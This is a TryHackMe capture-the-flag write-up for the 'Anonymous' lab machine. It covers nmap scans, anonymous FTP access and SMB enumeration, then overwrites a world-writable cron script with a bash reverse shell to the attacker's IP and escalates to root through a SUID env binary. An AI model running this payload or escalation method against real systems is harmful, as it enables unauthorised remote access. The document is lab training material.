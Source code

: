 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-1.png)

In this room i encountered 2 services, and both of them allowed anyone to connect to them and worse, to upload files.

As always, let's start with a ports scanning.

```text
# Nmap 7.80 scan initiated Sat Nov  7 05:34:01 2020 as: nmap -sS -T4 -o first.txt 10.10.180.211
Nmap scan report for 10.10.180.211
Host is up (0.078s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

# Nmap done at Sat Nov  7 05:34:05 2020 -- 1 IP address (1 host up) scanned in 3.86 seconds
```

Let's also do a more in depth scan with some default scripts.

```text
# Nmap 7.80 scan initiated Sat Nov  7 05:37:14 2020 as: nmap -sV -sC -p21,22,139,445 -o second.txt 10.10.180.211
Nmap scan report for 10.10.180.211
Host is up (0.076s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 16m06s, deviation: 0s, median: 16m05s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-11-07T10:53:38+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-07T10:53:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  7 05:37:36 2020 -- 1 IP address (1 host up) scanned in 22.41 seconds
```
From the second scan i noticed the ftp server allows anonymos login and also allows anyone to write/add files to the server. The anonymous login means i can login the default credentials ftp:ftp. 

```text
ftp 10.10.180.211
Connected to 10.10.180.211.
220 NamelessOne's FTP Server!
Name (10.10.180.211:root): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1247 Nov 07 10:54 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
ftp> get clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for clean.sh (314 bytes).
226 Transfer complete.
314 bytes received in 0.00 secs (800.6282 kB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for removed_files.log (1247 bytes).
226 Transfer complete.
1247 bytes received in 0.00 secs (2.9436 MB/s)
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.01 secs (8.4080 kB/s)
ftp> exit
221 Goodbye.

```

Here is a scripts folder which has 3 files. The most useful to an attacker is the clean.sh script as it is world writeable and also is owned by a higher privileged user. I know that as the 1000 uid is given to humas users and services usually have other number range (1-999). the ftp has a uid of 113.

The to_do script has a warning:
```text
I really need to disable the anonymous login...it's really not safe
```
The removed_files.log is just a file with many lines: ```text Running cleanup script:  nothing to delete ```

To exploit this ftp server i need to upload a reverse shell with the name clean.sh. My script will overwrite the preexisting file and it will preserve the uid. If i were to upload a file with any other name, the file will belong to ftp user, and would have the uid 113. This machine has also a smb service which i will enumerate and maybe find something useful. If not, i will stick to my initial plan.

Using smbmap i was able to login with no password and noticed i can access the pics file, as it is read only.

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-2.png)

The folder contains 2 pictures and based on their names, are about puppies.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-3.png)

To download the files i used the -R parameter.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-4.png)

There picture were a distraction as they didn't contained anything of use. I tried exiftool, binwalk, stegsolve.jar, and even looked at their hex representation and didn't find a specific string which denoted the use of steghide.   
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-5.png)
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-6.png)

I think it's time to apply the forementioned plan. My payload is:
```text
#!/bin/bash
bash -i >& /dev/tcp/10.8.5.181/1234 0>&1
```

Based on the result of the id command, i got a reverse shell as the user namelessone. This user is part of group lxd. This group can be used to escalate privileges to root.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-7.png)

The flag was in the home folder of the current user. Now i will further enumerate the other ways i can do privesc. Among the binaries i found the env command.

```text
find / -type f -perm /u=s 2>/dev/null
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

On gtfobins i found a way to use the env command to escalate privileges.

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-8.png)

When i executed the command i didn't notice any difference, but the more i looked at the result of id command i saw the added group euid with his value of 0.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-9.png)
